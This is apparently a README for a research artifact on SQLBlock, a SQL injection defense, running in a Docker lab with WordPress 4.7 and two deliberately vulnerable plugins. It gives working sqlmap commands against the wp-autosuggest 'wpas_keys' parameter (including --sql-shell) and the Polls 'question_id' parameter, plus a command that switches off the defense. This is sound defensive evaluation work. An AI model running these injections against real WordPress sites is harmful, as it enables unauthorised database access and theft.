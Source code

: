 # SQLBlock defense deployed on WordPress's plugins

You can download an already setup docker container from the below link
[wordpress.tar](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom)

## Running the docker
To run the docker, you should first load the tarball file using the following command.
```bash
docker load -i sqlblock_wordpress.tar
```

You can use the following command to run the docker container.
```bash
docker run --name sqlblock-container -d --rm -p 9000:80 -it sqlblock_wordpress
```

This docker container includes WordPress 4.7 and two plugins which has SQLi vulnerabilities. The docker container is already loaded with the profile of benign browsing in WordPress which includes only simple actions.


## Exploit the vulnerabilities

In the prepared docker container, SQLBlock is defending against the SQli requests. You can turn off SQLBlock using the following command.
```bash
mysql -u root -e "UNINSTALL PLUGIN sqlblock"
```

You can turn SQLBlcok back on, either using the script called `enforce_profile` or you can run the following command.
```bash
mysql -u root -e "INSTALL PLUGIN sqlblock SONAME 'sqlblock.so'"
```

You can exploit the vulnerabilities in Poll widget and autosuggest plugin using sqlmap tool. You can download sqlmap from this [link](https://drive.google.com/drive/folders/1sJslTelkODYPgtIoTWXD_lI-ws3kjLom).

# Auto-suggest vulnerability
You can run the following command to perform the SQLi exploit on auto-suggest plugin in WordPress.
```bash
./sqlmap-dev/sqlmap.py --flush-session -u "http://localhost:9000/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1" --technique BT --dbms MYSQL --risk 3 --level 5 -p wpas_keys --tamper space2comment --sql-shell
```

# Polls widget vulnerability

First, you need to record a benign request while you participate in poll. You can record the request using Burp suite tool downloaded from this [link](https://portswigger.net/burp/communitydownload).

- After running Burp suite, go to proxy tab and turn on intercepting mode. In the option tab you see the IP and port for the interception. You should modify your browser's proxy setting according to the information in the proxy tab of Burp suite.
- Web browsers by default do not intercept the local requests. To change that you should follow the instruction for intercepting Localhost traffic. You can follow the instruction for Firefox [here]{https://security.stackexchange.com/questions/142552/how-to-configure-burp-suite-for-localhost-application}
- Visit the URL <http://localhost:9000/?p=4>. There is poll in this blog post, which you can submit your answer and record the request sent to the server using Burp suite
- After observing the request in Burp suite, you can right-click and use the "save to file" option to save the request for submitting an answer to the poll.


To exploit the vulnerability in Polls widget you can use the following command. Note that you should replace the `path_to_saved_requset`.

```bash
./sqlmap-dev/sqlmap.py --flush-session -r %path_to_saved_request% -p question_id --tamper space2comment
```

